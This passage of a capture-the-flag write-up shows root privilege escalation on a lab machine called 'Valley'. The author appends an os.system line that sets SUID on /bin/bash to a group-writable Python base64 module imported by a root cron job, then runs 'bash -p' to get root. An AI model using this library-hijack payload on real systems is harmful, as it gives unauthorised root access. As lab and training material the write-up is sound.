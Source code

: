 It is using base64 module lets see I can alter it or not →

```bash
valley@valley:/photos/script$ ls -al /usr/lib/python3.8/base64.py
-rwxrwxr-x 1 root valleyAdmin 20382 Mar 13  2023 /usr/lib/python3.8/base64.py
valley@valley:/photos/script$ id
uid=1000(valley) gid=1000(valley) groups=1000(valley),1003(valleyAdmin)
valley@valley:/photos/script$
```
{: .nolineno}
{: .nolineno}

As I am part of `valleyadmin` group so I can edit it so lets add some executable so that it will be executed as root user as I ran `pspy64` tool and it is executing each minute →

![Untitled](Valley/Untitled%209.png)

```bash
valley@valley:~$ echo 'import os; os.system("chmod +s /bin/bash");' >> /usr/lib/python3.8/base64.py
valley@valley:~$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
valley@valley:~$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
valley@valley:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
valley@valley:~$
valley@valley:~$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1000(valley) gid=1000(valley) euid=0(root) egid=0(root) groups=0(root),1000(valley),1003(valleyAdmin)
bash-5.0# cd /root
bash-5.0# ls -al
total 56
drwx------  8 root root 4096 Mar 13  2023 .
drwxr-xr-x 21 root root 4096 Mar  6  2023 ..
-rw-------  1 root root    0 Mar 21  2023 .bash_history
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Mar 20  2023 .cache
drwxr-xr-x  4 root root 4096 Mar  6  2023 .config
drwx------  4 root root 4096 Aug 15  2022 .gnupg
drwxr-xr-x  3 root root 4096 Aug 11  2022 .local
-rw-------  1 root root   49 Mar  3  2023 .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   37 Mar 13  2023 root.txt
-rw-r--r--  1 root root   66 Aug 15  2022 .selected_editor
drwx------  3 root root 4096 Aug 11  2022 snap
drwx------  2 root root 4096 Aug 14  2022 .ssh
-rw-r--r--  1 root root  222 Aug 15  2022 .wget-hsts
bash-5.0# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group defaul
t qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc mq state UP group defa
ult qlen 1000
    link/ether 02:fa:c5:3e:12:99 brd ff:ff:ff:ff:ff:ff
    inet 10.10.230.7/16 brd 10.10.255.255 scope global dynamic ens5
       valid_lft 2930sec preferred_lft 2930sec
    inet6 fe80::fa:c5ff:fe3e:1299/64 scope link 
       valid_lft forever preferred_lft forever
```